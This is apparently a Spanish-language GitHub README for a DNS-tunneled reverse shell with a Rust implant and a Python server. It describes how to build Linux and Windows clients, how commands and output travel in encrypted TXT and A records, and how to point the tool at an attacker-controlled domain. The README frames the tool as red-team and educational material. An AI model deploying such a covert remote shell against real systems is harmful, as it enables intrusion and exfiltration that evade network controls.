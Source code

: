 <img src="https://github.com/user-attachments/assets/ffb39231-ae53-4a15-9c1b-dd4583124ae5" alt="Logo" width="200"/>
# Reverse Shell sobre DNS

Este proyecto implementa una reverse shell que utiliza el protocolo DNS para la comunicación entre un cliente (escrito en Rust) y un servidor (en Python). Es ideal para situaciones donde el tráfico convencional está restringido, pero el DNS sigue permitido.

---

## Estructura del Proyecto

```
dns_rev/
├── dns_client/         # Cliente en Rust
│   ├── src/
│   │   ├── main.rs
│   │   ├── config.rs
│   │   ├── command.rs
│   │   ├── dns.rs
│   │   └── crypto.rs
│   ├── Cargo.toml
│   └── Cargo.lock
├── dns_server/         # Servidor en Python
│   ├── main.py
│   ├── requirements.txt
│   └── tests/
│       └── client.py
├── setup.sh            # Script de instalación para dependencias
├── generate.sh         # Script de generación y configuración del cliente
```

---

## Instalación

### Servidor (Python)

1. **Instala los requerimientos:**
   ```bash
   pip install -r dns_server/requirements.txt
   ```
   El archivo incluye:
   - `dnslib`
   - `cryptography`

2. **(Opcional) Ejecuta el setup para dependencias en Linux:**
   ```bash
   bash ./setup.sh
   ```

3. **Inicia el servidor:**
   ```bash
   python dns_server/main.py
   ```

### Cliente (Rust)

1. **Genera y configura el binario del cliente:**
   
   Ejecuta el script de generación:
   ```bash
   bash ./generate.sh
   ```
   - El script te pedirá la IP del servidor DNS y la actualizará automáticamente en la configuración del cliente.
   - Te permitirá elegir el sistema operativo de destino (Linux o Windows) y compilará el binario correspondiente.
   - El binario generado se copiará automáticamente al directorio actual con el nombre adecuado (`dns_client_bin` para Linux o `dns_client.exe` para Windows).

2. **Ejecuta el binario generado:**
   - En Linux:
     ```bash
     ./dns_client_bin
     ```
   - En Windows:
     ```cmd
     dns_client.exe
     ```

---

## Protocolo de Reverse Shell sobre DNS

- **Cifrado:** Toda la comunicación está cifrada usando ChaCha20Poly1305.
- **Intercambio de claves:** El cliente solicita la clave y nonce al servidor usando subdominios especiales (`cipher.<dominio>`).
- **Comandos:** El servidor envía comandos fragmentados en registros TXT bajo el subdominio `cmd.<dominio>`.
- **Respuestas:** El cliente ejecuta el comando y envía la salida fragmentada en registros A/TXT bajo el subdominio `output.<dominio>`.
- **Fragmentación:** Los mensajes largos se dividen en fragmentos para ajustarse a las limitaciones del protocolo DNS.
- **Control:** El servidor mantiene el estado y controla la autorización de clientes por IP.

---

## Personalización: Dominios y Subdominios

Para adaptar el proyecto a tu infraestructura, debes modificar los siguientes valores:

### En el Servidor (`dns_server/main.py`)

Busca las siguientes variables al inicio del archivo:
```python
DOMINIO_BASE = "guchihacker.org"  # Cambia por tu dominio
CMD_SUBDOMINIO = f"cmd.{DOMINIO_BASE}"
OUTPUT_SUBDOMINIO = f"output.{DOMINIO_BASE}"
CIPHER_SUBDOMINIO = f"cipher.{DOMINIO_BASE}"
```
Cambia `"guchihacker.org"` por tu dominio propio y asegúrate de que apunte a tu servidor.

### En el Cliente (`dns_client/src/config.rs`)

El script `generate.sh` te pedirá la IP del servidor DNS y la actualizará automáticamente. Si quieres cambiar el dominio base u otros parámetros, edita manualmente:
```rust
pub struct Config {
    pub dns_server: String,      // IP del servidor DNS
    pub base_domain: String,     // Dominio base (igual que en el servidor)
    ...
}
```
Por defecto:
```rust
dns_server: "127.0.0.1".to_string(),
base_domain: "guchihacker.org".to_string(),
```
Modifica estos valores para que coincidan con tu infraestructura.

---

## Tests

El servidor incluye un archivo de pruebas en `dns_server/tests/client.py` para validar la funcionalidad del cliente en Python.

---

## Video demo



https://github.com/user-attachments/assets/496bb389-2b79-4666-addc-2f514a89dde5


---

## Notas de Seguridad

- **Uso ético:** Este software es solo para fines educativos y pruebas de seguridad en entornos controlados.
- **Dominio propio:** Usa siempre dominios y servidores bajo tu control.
- **Cifrado:** Toda la comunicación está cifrada, pero la seguridad depende de la confidencialidad de la clave y el control del dominio. 
